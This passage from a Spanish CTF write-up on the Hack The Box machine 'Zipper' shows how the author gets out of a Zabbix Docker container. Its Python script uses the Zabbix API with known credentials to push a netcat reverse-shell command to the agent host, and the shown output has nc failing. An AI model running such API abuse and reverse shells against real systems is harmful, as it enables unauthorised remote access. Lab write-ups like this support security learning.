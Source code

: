 Oh, creo que estoy dentro de una instancia de docker.

# Escape from docker?

Estuve enumerando y enumerando la instancia de docker, hasta que me di cuenta de un detalle importantísimo de la configuración. El objeto script, tiene una propiedad especial llamada `execute_on`, la cual te permite ejecutar el script ya sea dentro del servidor de zabbix (docker) o sobre el cliente (el que tiene abierto el puerto 10050!), por lo que modificando las lineas 22 y 25 el script se ejecutará en el agente:

``` python
#!/usr/bin/env python3
from pyzabbix import ZabbixAPI

api_address="http://10.10.10.108/zabbix/api_jsonrpc.php"

user="zapper"
password="zapper"
hostname = "Zipper"
hostid = "10106"

zapi = ZabbixAPI(api_address)
zapi.login(user, password)

scriptid = ""

revshell = "nc -e /bin/bash 10.10.12.83 3001"

get_scripts = zapi.script.get(filter={"host": hostname})
for script in get_scripts:
    if script['name'] == "miau script":
        scriptid = script['scriptid']
        zapi.script.update(scriptid=scriptid, execute_on="0", command=revshell)

if scriptid == "":
    scriptid = zapi.script.create(name='miau script', execute_on="0", command=revshell)['scriptids']

print(zapi.script.execute(hostid=hostid, scriptid=scriptid))
```

Ahora tras ejecutarlo:

``` text
xbytemx@laptop:~/htb/zipper$ python3 get_revsh.py
{'response': 'success', 'value': "nc: invalid option -- 'e'\nusage: nc [-46CDdFhklNnrStUuvZz] [-I length] [-i interval] [-M ttl]\n\t  [-m minttl] [-O length] [-P proxy_username] [-p source_port]\n\t  [-q seconds] [-s source] [-T keyword] [-V rtable] [-W recvlimit] [-w timeout]\n\t  [-X proxy_protocol] [-x proxy_address[:port]] \t  [destination] [port]"}
```

Esto nos indica que ha sido exitoso nuestro cambio de servidor a agente, porque como vemos la versión de netcat instalada en el agente, no soporta la opción \-e. Aquí decidí cambiar a una python reverse shell, por lo que cambiamos la variable revshell:

